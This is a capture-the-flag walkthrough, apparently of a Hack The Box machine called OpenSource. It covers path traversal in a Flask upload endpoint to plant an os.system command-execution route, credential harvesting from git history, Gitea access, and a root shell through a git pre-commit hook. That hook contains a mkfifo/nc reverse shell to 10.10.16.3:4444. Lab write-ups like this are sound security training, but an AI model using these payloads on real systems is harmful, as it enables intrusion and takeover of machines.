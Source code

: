 # OpenSource

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (8) (1) (4).png" alt=""><figcaption></figcaption></figure>

Take note of port 3000, it will be important later!&#x20;

### Overwrite for RCE

This website was a file sharing application where we could upload files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (3).png" alt=""><figcaption></figcaption></figure>

Interestingly, we were allowed to download the entire repository here:

<figure><img src="../../../.gitbook/assets/image (9) (2) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (5) (2).png" alt=""><figcaption></figcaption></figure>

The `source.zip` file also contained a `.git` repo that we could analyse later.

Since this looks like a Flask application, we can check the `views.py` file to view the endpoints that are accessible.

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

So this program would get a file via POST, and then upload it to the `uploads/` directory. The problem is, the `file_name` parameter is unsanitised, meaning that we could potentially use this to **overwrite the existing files**. With this knowledge, what we can do is add some more code to this views.py.

In this case, we can add an `/exec` endpoint who's function is to execute commands we send:

```python
@app.route('/exec')
def runcmd():
    return os.system(request.args.get('cmd'))
```

Then, we can attempt to upload this file onto the server. We would need to intercept the response and change the file name to `../../app/app/views.py`. Since the filename is simply appended at the back of `uploads/`, this would cause the new file to be put at `uploads/../../app/views.py`. The directories are based on the source code I downloaded.

When we intercept and change the name of the file, we would be able to access our new endpoint. We can confirm RCE through a simple ping command:

<figure><img src="../../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via the `mkfifo` command into a Docker Container.

<figure><img src="../../../.gitbook/assets/image (61) (2).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Within this container, we can see other foreign addresses that are around:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

172.17.0.1 was another address that was present on the host.

### .git Analysis

I couldn't find much from the container, so I went ahead with enumerating the git repository in hopes of finding some passwords when scanning through the logs.

By using `git log`, I was able to find some credentials for anotehr application elsewhere.

<figure><img src="../../../.gitbook/assets/image (38) (3).png" alt=""><figcaption></figcaption></figure>

Earlier, we found port 3000 to be inaccessible from our host. From the docker however, it could be accessed. I downloaded `chisel` onto the container and forwarded port 3000.&#x20;

### Gitea&#x20;

When this port was accessed, it was a Gitea instance:

<figure><img src="../../../.gitbook/assets/image (57) (2).png" alt=""><figcaption></figcaption></figure>

Signing into Gitea with the credentials we found earlier works.

<figure><img src="../../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

Notice that there's a home-backup repo, and within it are the user's SSH keys:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then the SSH keys to gain access to the `dev01` user.

## Privilege Escalation

LinPEAS didn't reveal a lot to me, so I opted for `pspy64` to view the processes.

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

I saw this process run by root:

<figure><img src="../../../.gitbook/assets/image (3) (1) (5).png" alt=""><figcaption></figcaption></figure>

Every minute or so, it seems that this git repository is being updated on the Gitea instance. Based on GTFOBins, **git hooks** can be abused here to execute any script we want.

### Git Hooks Abuse

To abuse this, first we need to create a quick script for a reverse shell.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.16.3 4444 > /tmp/f
```

Afterwards, we just need to name this script `pre-commit` and place it within the `~/.git/hooks` folder.

<figure><img src="../../../.gitbook/assets/image (17) (4) (1).png" alt=""><figcaption></figcaption></figure>

After a few minutes, a listener port should catch a shell:

<figure><img src="../../../.gitbook/assets/image (86) (1).png" alt=""><figcaption></figcaption></figure>

